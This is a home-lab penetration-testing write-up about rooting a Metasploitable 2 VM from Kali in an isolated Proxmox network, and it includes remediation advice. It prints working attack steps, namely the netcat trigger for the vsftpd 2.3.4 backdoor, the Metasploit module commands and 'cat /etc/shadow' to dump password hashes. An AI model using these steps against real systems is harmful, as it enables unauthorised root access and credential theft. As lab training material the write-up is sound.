




# Rooting Metasploitable 2

A full kill chain in my Proxmox home lab: built a Kali box, stood up an isolated network, dropped in a vulnerable target, and got root on it two different ways. Here is how it went, snags and all.

| | |
|---|---|
| **Attacker** | Kali Linux · `10.10.10.10` |
| **Target** | Metasploitable 2 · `10.10.10.20` |
| **Platform** | Proxmox VE |
| **Result** | root (`uid=0`) |

---

I wanted to get hands on with Kali and actually practice instead of just reading about it, so I ran the whole thing on the Proxmox server in my home lab. Pulling Kali down was easy. I pasted the ISO link into the Proxmox download box and spun up a new VM. Way cleaner than running it in VMware like I used to. I save a ton of space and everything stays organized in one place.

I set Kali up with the right disk and network, then tried driving it through noVNC. That was slow and laggy, so I switched to connecting over Remote Desktop with the Windows App on my Mac. So I guess you can say I learned how to RDP today too, lol. Poking around the fresh install, I spotted a bunch of tools I had used in class labs like Wireshark and Autopsy, plus a few (Scapy, tcpdump, nmap, hping3) that would have made my capstone a lot easier if I had gotten them running in time.

Once Kali was solid, I built a Linux bridge, `vmbr1`, to act as an isolated lab network so nothing I do can touch my home network or my PS5. Then I grabbed Metasploitable 2 to practice with, and the real fun started.

## 00 · Lab setup

Metasploitable comes as a VMware disk, so I had to get it into Proxmox. I downloaded it in Kali's Firefox and unzipped it in the terminal, made sure the VM's network was on `vmbr1`, then copied the disk over to the Proxmox host and imported it.

```bash
kali$ scp ~/Downloads/Metasploitable2-Linux/Metasploitable.vmdk root@192.168.1.50:/root/
pve#  qm importdisk 102 /root/Metasploitable.vmdk local-lvm
```

> **Snag.** When I booted it, the VM dropped into an `(initramfs)` prompt and could not find a disk to boot from. Turns out that is a known Metasploitable quirk. It expects an old-school IDE disk, not SCSI. I shut it down, reattached the disk as IDE, started it back up, and boom, it booted straight to the login.

```bash
pve#  qm set 102 --delete scsi0
pve#  qm set 102 --ide0 local-lvm:vm-102-disk-0
pve#  qm set 102 --boot order=ide0
```

Since `vmbr1` has no DHCP, I set static IPs by hand, Metasploitable at `.20` and Kali at `.10`, and got them talking.

```bash
kali$ ping -c 4 10.10.10.20   # replies back, we are good
```

## 01 · Recon

With both boxes chatting, I kicked off a version scan with nmap to map out what the target was running.

```bash
kali$ nmap -sV 10.10.10.20
```

The `-sV` flag probes each open port to ID the service and version, not just whether it is open. Metasploitable runs just about every vulnerable service you can think of, so the list was long. These are the ones that stood out:

| Port | Service | Version | Why it matters |
|---|---|---|---|
| 21 | ftp | vsftpd 2.3.4 | **Backdoored build** |
| 1524 | bindshell | Metasploitable root shell | **Root shell left open** |
| 445 | netbios-ssn | Samba 3.x | **usermap_script RCE** |
| 6667 | irc | UnrealIRCd | Backdoored build |
| 3306 | mysql | MySQL 5.0.51a | Weak / default creds |

Every one of those is a door. I went with the FTP backdoor first since it is the classic beginner win and it actually teaches you what a backdoor is.

## 02 · The vulnerability

**vsftpd 2.3.4** is famous for the wrong reason. Back in 2011 someone slipped malicious code into the official source. If you send a username that ends in a smiley face `:)`, the backdoor quietly opens a root shell on **port 6200**. No real password needed. So the play is simple: trigger it on port 21, then connect to 6200.

## 03 · Exploitation, the manual way

I did it by hand first so I could actually see the mechanism instead of letting a tool hide it. First I triggered the backdoor over FTP on port 21:

```bash
kali$ nc 10.10.10.20 21
220 (vsFTPd 2.3.4)
USER hacker:)
PASS whatever
```



That connection just hangs, which is exactly what you want. The backdoor is opening on 6200. I left it sitting and connected to 6200 in a second terminal:

```bash
kali$ nc 10.10.10.20 6200
id
uid=0(root) gid=0(root)
```



That is the whole game. I went from a port scan to full control of the box. I confirmed it with a couple of commands and dumped the password hashes, which only root can read:

```bash
# whoami      → root
# hostname    → metasploitable
# cat /etc/shadow   → full hash dump
```

## 04 · Exploitation, the Metasploit way

Then I redid the same exploit in Metasploit to learn the tooling the pros actually use. New terminal, fire up the console, load the module, point it at the target, and run it:

```bash
kali$ msfconsole
msf> use exploit/unix/ftp/vsftpd_234_backdoor
msf> set RHOSTS 10.10.10.20
msf> exploit
```

I figured this would pop a shell right away. It did not, lol. I ran into a wall and did some debugging to get through it, which honestly taught me more than if it had just worked.

> **Snag 1 — OptionValidateError.** It threw `One or more options failed to validate`. Metasploit had auto-picked a reverse payload that needs an `LHOST` to call back to, and I had not set one. I messed around trying to set and unset the payload manually, scrolled through the giant payload list (there are a LOT of them that I do not understand yet), and kept hitting it.

> **Snag 2 — Backdoor already in use.** Reading the error closer, the real problem was `Backdoor bind listener port 6200 is already open`. Silly me, my manual `nc` session from earlier was still holding that port open, so Metasploit could not grab it. Lesson learned: close your sessions when you are done. That is a redundancy habit I need to build into my projects.



Once I closed the old shell, it worked. And it did one better than the manual run: instead of a plain shell I got a **Meterpreter session**, which is Metasploit's souped-up remote shell with way more built in.

## 05 · Post-exploitation

From the Meterpreter prompt I confirmed root and pulled some info on the box:

```bash
meterpreter> getuid    → Server username: root
meterpreter> sysinfo   → Ubuntu 8.04, Linux 2.6.24, i686
```



> **Lesson.** I tried `hashdump` to grab the password hashes and it failed. The error said it needs the `priv` extension, which only works against **Windows** targets. That is the lesson: tools are OS specific. On Linux you already have root, so you just read the file directly. I dropped into a shell with `shell` and ran `cat /etc/shadow` to pull the same hashes. Knowing why a command fails is as useful as knowing which one works.

Those hashes use the old `$1$` MD5-crypt format, which is weak. The accounts with real hashes (root, msfadmin, user, and a few more) would crack fast in John the Ripper, which is the natural next session.

## 06 · Remediation

Finding the hole is only half of it. Here is what a defender should actually do about each of these, which is the part that turns a scan into real security work.

- **Rip out vsftpd 2.3.4.** Remove or upgrade to a clean, current version from a trusted repo. The backdoor only exists in that one tampered build, so patching kills it outright.
- **Shut down services nobody uses.** This box runs FTP, Telnet, rlogin, and a literal open root shell on 1524. Every running service is attack surface. If it is not needed, turn it off.
- **Segment the network.** Keep machines like this off the flat network with VLANs and firewall rules, so one compromised host cannot reach everything else. Same reason I built it on an isolated bridge.
- **Fix weak and default creds.** Defaults like `msfadmin/msfadmin` and reused passwords are free wins for an attacker. Enforce strong, unique passwords and crack your own hashes to find the weak ones before someone else does.
- **Patch the OS.** A 2008 kernel has years of public exploits. Keep systems on supported, patched releases so known CVEs are already closed.

## 07 · What I took away

Building on the Proxmox hypervisor I already had running, this run I stood up a Kali attack box, carved out an isolated lab network, dropped in a vulnerable target, and got root on it two different ways. I ran the full chain: recon, find the vuln, exploit, root, post-exploitation, done both by hand and with Metasploit.

The by-hand version is the part that actually taught me how the backdoor works. Metasploit just automates what I already did with netcat. And the two things that slowed me down, the IDE disk quirk and my own stale session blocking port 6200, ended up being the stuff I will remember longest.

> **Safety note.** Everything here ran on an isolated lab network I own, against a machine built on purpose to be hacked. Never point these tools at a system you do not own or have written permission to test.

---

*Jai Barber · [github.com/blkmonday](https://github.com/blkmonday) · home lab pentest writeup, 2026*
